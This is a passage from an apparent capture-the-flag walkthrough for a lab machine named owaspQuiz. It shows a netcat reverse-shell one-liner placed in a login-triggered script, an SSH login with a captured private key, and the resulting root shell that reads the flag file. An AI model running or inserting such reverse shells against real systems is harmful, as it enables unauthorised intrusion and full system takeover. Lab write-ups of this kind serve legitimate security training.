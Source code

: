 ```bash
        exit 1
fi
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc  x.x.x.x 1234 >/tmp/f
munojr@owaspQuiz:/usr/local/sbin$ 
```


Then login to the system with `id_rsa` and listen to another shell with netcat 
```bash
└─$ ssh munojr@192.168.56.103 -i id_rsa
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-110-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 21 May 2022 01:29:57 PM UTC

  System load:  0.3                Users logged in:       1
  Usage of /:   15.4% of 30.88GB   IPv4 address for eth0: 10.0.2.15
  Memory usage: 68%                IPv4 address for eth1: x.x.x.x
  Swap usage:   0%                 IPv4 address for eth2: x.x.x.x
  Processes:    147

  => There is 1 zombie process.


This system is built by the Bento project by Chef Software
More information can be found at https://github.com/chef/bento
You have new mail.
/usr/local/sbin/ssh-alert.sh failed: exit code 1

```

In the other netcatt listener.

```bash
─$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [172.17.17.62] from (UNKNOWN) [x.x.x.x] 51856
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# echo `hostname`;whoami
owaspQuiz
root
# cd /root/
# ls -la
total 36
drwx------  5 root root 4096 May 21 13:01 .
drwxr-xr-x 22 root root 4096 May 14 13:20 ..
lrwxrwxrwx  1 root root    9 May 21 13:01 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwxr-xr-x  3 root root 4096 May 21 09:30 .local
-rw-------  1 root root  447 May 21 10:32 .mysql_history
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r--r--  1 root root   36 May 21 13:01 root.txt
drwxr-xr-x  3 root root 4096 Dec 19 19:42 snap
drwx------  2 root root 4096 Dec 19 19:42 .ssh
# cat root.txt
THM{WREDACTED}
```
